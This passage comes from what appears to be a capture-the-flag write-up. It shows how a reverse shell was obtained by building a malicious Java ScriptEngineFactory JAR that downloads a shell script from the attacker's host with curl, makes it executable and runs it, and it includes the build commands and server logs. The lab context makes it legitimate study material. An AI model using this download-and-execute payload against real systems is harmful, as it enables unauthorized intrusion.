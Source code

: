 

That's RCE.

### Rev Shell

Getting a reverse shell from here wasn't trivial. I think this is
typically of Java. I tried several Java reverse shells, and putting
typical Bash and `nc` based shells into the
`Runtime.getRuntime().exec()`. Nothing worked.

Stepping back, I tried just putting `nc 10.10.14.7 443` into
`Runtime.getRuntime().exec()`, and it connected back. So it isn't a
firewall, but rather something about how Java is running the reverse
shells. What about `curl`? I'll modify the Java source to issues
`curl http://10.10.14.7`, recompile / re-Jar, and trigger, and it works:



    10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:34:29] "GET / HTTP/1.1" 200 -



I've run into this before. Java has issues when you include pipes or
redirects in the execution payloads. The best way around this is to do
it in steps:

1.  Use `curl` or `wget` to upload a Bash script that provides a
    ReverseShell.
2.  `chmod` that script `+x`.
3.  Call the script.

This can be done in one JAR payload:



     10     public AwesomeScriptEngineFactory() throws InterruptedException {
     11         try {
     12             Process p = Runtime.getRuntime().exec("curl http://10.10.14.7/shell.sh -o /dev/shm/.s.sh");
     13             p.waitFor();
     14             p = Runtime.getRuntime().exec("chmod +x /dev/shm/.s.sh");
     15             p.waitFor();
     16             p = Runtime.getRuntime().exec("/dev/shm/.s.sh");
     17         } catch (IOException e) {
     18             e.printStackTrace();
     19         }
     20     }



I'll compile, Jar, and move it into `www`:



    oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java
    oxdf@parrot$ jar -cvf rev.jar -C src/ .
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1837) (out= 784)(deflated 57%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1730) (out= 462)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    oxdf@parrot$ mv rev.jar www/
